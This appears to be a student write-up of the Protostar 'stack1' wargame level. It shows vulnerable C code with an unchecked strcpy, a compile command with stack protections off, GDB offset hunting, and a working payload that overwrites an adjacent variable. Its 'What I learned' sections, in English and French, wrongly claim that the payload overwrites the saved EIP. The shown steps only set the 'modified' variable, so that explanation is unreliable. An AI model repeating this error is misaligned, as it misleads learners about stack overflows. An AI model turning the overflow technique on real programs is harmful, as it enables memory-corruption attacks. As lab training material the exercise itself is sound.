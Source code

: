 # Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
		
# Explanation

1. **Compile**
```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack1.c -o Stack1
```

2. **Find interesting break point**
- Check for the use of any unsafe function, such as get/strcpy/fgets.
- Find interest address for modified (0x080491eb)
```gdb
gdb -q ./Stack1
disas main
```
![Disas](Images/DisasMain.png)

3. **Offset Calculation**
- Calculate distance between buffer and and modified
```gdb
break *0x080491eb
run < AAAAAAAAAAAAAAAAAAA
```
![Break](Images/Breakpoint.png)

```gdb
print &buffer
print &modified
print (char *)&modified - (char *)&buffer
64 #Now test offset plus payload
```
![Offset](Images/Offset.png)

4. **Build Payload and confirm** 
- Payload will look like
```bash
#From CMD line
./Stack1 "$(python3 -c "print('A'*64 + '\x64\x63\x62\x61')")"

#From GDB
gdb --args ./Stack1 $(python3 -c "print('A'*64 + '\x64\x63\x62\x61')")
break *0x080491eb
p/x modified
```

![Success1](Images/Success1.png)

![Success2](Images/Success2.png)


# What I learned

- **Little-endian awareness:** the target return address must be written in reverse byte order (`0x61626364` ⇒ `"\x64\x63\x62\x61"`), or the CPU will read it backwards.
- **Exact offset still matters:** 64 bytes of padding gets you to the saved EIP just like in _stack0_; anything off by one leaves EIP untouched.
- **Proof of success:** running `./stack1 "$(python3 -c 'print(\"A\"*64 + \"\\x64\\x63\\x62\\x61\")')"` and checking GDB shows EIP = `0x61626364`, confirming the payload landed exactly where intended.

# Ce que j’ai appris

- **Penser little-endian :** l’adresse de retour doit être écrite à l’envers (`0x61626364` ⇒ `"\x64\x63\x62\x61"`), sinon le processeur la lira à rebours.
- **L’offset reste crucial :** 64 octets de bourrage atteignent pile l’EIP sauvegardé ; un seul ocet de plus ou de moins et l’EIP reste intact.
- **Preuve à l’appui :** la commande  
    `./stack1 "$(python3 -c 'print("A"*64 + "\x64\x63\x62\x61")')"`  
    exécutée sous GDB affiche EIP = `0x61626364`, confirmant que la charge utile tombe exactement au bon endroit.

